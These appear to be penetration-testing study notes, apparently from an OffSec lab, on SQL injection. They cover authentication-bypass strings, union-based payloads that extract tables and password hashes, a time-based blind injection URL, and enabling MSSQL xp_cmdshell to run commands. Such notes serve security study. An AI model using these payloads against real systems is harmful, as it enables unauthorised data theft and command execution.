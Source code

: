 ##### Basic Commands- MSSql
- We can sometimes access MSSQL through #impacket
- impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
`SELECT @@version;`
`SELECT name FROM sys.databases;` (lists all databases)
`SELECT * FROM offsec.information_schema.tables;` (Once we have found the database we wish to access we can now view the tables. (In this case the database is named offsec))
`select * from offsec.dbo.users;` (The table users seemed most interested. This command dumps all from users)

##### Error Based Payloads
- Start by checking for SQL. To do this throw in values such as '  in order to try and prompt an error message
- If this is the case for a login page a query will generally be something like
```
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$<%tp.frontmatter.Password%>'";
```
- We can try to bypass this authentication by appending ' OR 1=1 -- // to the end of the username
- We could instead add SQL queries after the username and try to enumerate the database ourselves. '  or 1=1 in (show databases) -- // for example 
- We could use this to enumerated databases and tables in order to receive user password hashes for example
- ' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
##### Union Based Payloads
- Union payload can be used in apps where an input returns more than one result (3.g a search returns name,address,etc.)
- Once happy this is the case we first need to understand how many columns are present in the target table.
- ' ORDER BY 1-- // (increase this until we receive an error)
- With this number we can begin to understand the database (in this example 5)
- %' UNION SELECT database(), user(), @@version, null,null -- //
- We can now look to bring back the table names 
- ' UNION SELECT table_name, column_name, table_schema, null, null FROM information_schema.columns where table_schema=database() -- //
- We can then look to extract information from these tables
- ' UNION SELECT username, password, description, null, null FROM users -- //
##### Blind SQL Injection
- We can use response time to infer whether a statement is true or not
`http://<%tp.frontmatter.Type%>/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //`
- In this case if the username proves valid the response will sleep for 3 seconds

##### SQLI Code Execution
- IN MSSQL it may be possible to take a string and pass it to the cmd shell for execution if we have the correct permissions
- If we are into the database through something such as impacket we can attempt to enable advanced options with
```
EXECUTE sp_configure 'show advanced options', 1;
**WAIT FOR RESPONSE
RECONFIGURE;
```
Now we need to enable the xp_cmdshell with
```
EXECUTE sp_configure 'xp_cmdshell', 1;
*** WAIT FOR RESPONSE
RECONFIGURE;
```
Now we can run commands with 
```
EXECUTE xp_cmdshell 'whoami';
```
- From here we could  upgrade to a reverse shell
- Alternatively if we are unable to use xp_cmdshell we may still use SELECT INTO_OUTFILE to write files to the webserver